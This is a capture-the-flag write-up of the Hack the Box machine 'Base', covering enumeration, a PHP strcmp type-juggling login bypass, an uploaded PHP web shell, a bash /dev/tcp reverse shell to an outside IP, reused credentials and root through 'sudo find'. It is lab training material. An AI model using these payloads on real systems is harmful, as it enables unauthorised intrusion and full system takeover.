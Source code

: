 ```yaml
---
title: Base
date: 2024-03-03 10:00
categories: [ctf, security, hacking, exploits, sudo exploitation, arbitrary file upload, authentication bypass, php type juggling]
tags: [ctf, security, hacking, exploits, sudo exploitation, arbitrary file upload, authentication bypass, php type juggling]
---
```


# Overview
Base is a vulnerable machine from [Hack the Box](https://www.hackthebox.com) that requires some web app enumeration and a unique type juggling with php. The foothold is accomplished after digging into a unique file and digging into a specific function. The privilege escalation is accomplished through a sudo exploitation due to a misconfiguration that allows us to run a specific linux binary as root. 

## Nmap Scan
sudo nmap -sS -Pn `<target ip>` -vvv 
* 22/tcp open  ssh  syn-ack ttl 63
    * OpenSSH 7.6p1 Ubuntu
* 80/tcp open  http  syn-ack ttl 63
    * Apache httpd 2.4.29 ((Ubuntu))

## Basic Enumeration
Nikto Scan:
- /: Server may leak inodes via ETags, header found with file /, inode: 99b0, size: 5e0a23270d210, mtime: gzip. See: http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2003-1418
- OPTIONS: Allowed HTTP Methods: HEAD, GET, POST, OPTIONS .
- /upload.php?type=\"`<script>alert(document.cookie)</script>`: Cookie PHPSESSID created without the httponly flag. See: https://developer.mozilla.org/en-US/docs/Web/HTTP/Cookies
- /login/: Directory indexing found.

Wfuzz Directory Enumeration
* "login"
* "assets"
* "forms"

* Under assets path:
    * "css"
    * "js"
    * "vendor"
    * "fonts"

* Under login path:
    * login.php
    * config.php
    * login.php.swp

The swap file is interesting, doing some further digging we find an article that helps explain what they are used for [here](https://www.techtarget.com/searchwindowsserver/definition/swap-file-swap-space-or-pagefile):
* Swap files record modifications made to the buffer, serving as a safety net in case of Vim or system crashes, facilitating the retrieval of those alterations. Furthermore, they prevent multiple instances of editors like Vim from concurrently modifying the same file.

We downloaded the swap file to our machine. Some of it contains machine code, but there are a good number of strings we can read. We can strip them out with "strings", and read the contents. 

* Examining this file, we can see how the web page is set up to evaluate the inputs for the login portal. 
    * the strcmp() function is used to compare the input string for username and password

```php
if (strcmp($username , $_POST['username']) == 0) {
 if (strcmp($password, $_POST['password']) == 0) {
```
* We can see that the username and password are both contained in `[]`. If we have the ability to control how these parameters are passed to the server, we can force them to be evaluated as an array, and since the restriction is not set to be `===`, we have the possibility of passing any string. 
    * Basically, if the data we pass is not empty, due to this bug in php, it will evaluate it to be true, and give us access. A more thorough explanation and video can be found [here](https://www.youtube.com/watch?v=idC5SAsKhlE) by `IppSec`.

To exploit this, we load up BurpSuite and get ready to intercept the login input.

* The idea is to utilize the comparison of our input to pass it as an array rather than string comparison
* We changed it to go from `username=admin&password=admin` to `username[]=admin&password[]=admin`
* This gives us acces, and we can see a page that allows us to upload a file. 

## Foothold
We can pass a simple php file to see if we have the ability to do code execution:
```php
<?php echo system($_REQUEST['cmd']);?>
```
- Looks like we can get commands to run, we can run id to get which user we are able to access.
    - www-data
- If we try to get a reverse shell through this method, we may get an error, would be better to swap it to a post request.
* We can send the following over to get a connection back:
```bash
/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.60/6666 0>&1'
```
We will need to url encode this so it is interpreted correctly by the server:
```bash
/bin/bash+-c+'bash+-i+>%26+/dev/tcp/10.10.14.60/6666+0>%261'
```
* We add the `+` for the spaces, and the `&` needs to be converted to `%26`, which is its equivalent. 

Now that we have access to the machine, we can check some files to see if we have any interesting documents. 
* One file has some credentials: `/var/www/html/login/config.php`
    * admin:thisisagoodpassword
* We can try to login over ssh to see if this works for admin, or the user on the box, `john`.

We now have ssh access, which is much more stable and very nice to have. We also now have access to `user.txt`.

![User](https://github.com/Dathalind/dathalind.github.io/blob/main/assets/img/base/Base_User.png?raw=true)

## Local Enumeration
Running the command `sudo -l` will show us that we have the ability to run a binary as root: `/usr/bin/find`.

* We can check the `Gtfobins` site [here](https://gtfobins.github.io/) to see if this is possible to be abused to gain root.

## Privilege Escalation
Running this command will give us root access: `sudo find . -exec /bin/sh \; -quit `

* We have rooted the box, and can now get `root.txt`.

![Root](https://github.com/Dathalind/dathalind.github.io/blob/main/assets/img/base/Base_Root.png?raw=true)
